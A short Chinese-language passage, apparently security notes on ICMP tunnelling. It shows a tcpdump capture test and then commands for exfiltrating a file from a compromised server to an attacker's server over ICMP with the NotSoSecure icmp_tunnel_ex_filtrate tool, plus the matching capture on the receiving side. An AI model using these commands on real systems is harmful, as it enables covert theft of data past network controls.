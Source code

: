 #### 测试抓包

开启tcpdump抓包

`tcpdump -i ens33 -t -s 0 -c 100 -w ./target.cap &`

使用curl产生流量

`curl www.baidu.com`

target.cap包如下，可以看到数据内容包含在icmp包Data中

![](pic/ICMP4.png)


### Data Ex-filteration over ICMP Tunnel

https://github.com/NotSoSecure/icmp_tunnel_ex_filtrate


被攻击服务器：

`icmp_transmitter.exe "input_file_to_be_sent" "IP_address_to_be_sent"`

（无python环境的Windows则可使用`ICMP_transmitter.exe`）

攻击者服务器：

先抓取流量包

```shell
sudo tcpdump -i eth0 icmp and icmp[icmptype]=icmp-echo -XX -vvv -w output.txt
```

parser.sh来解析输出文件
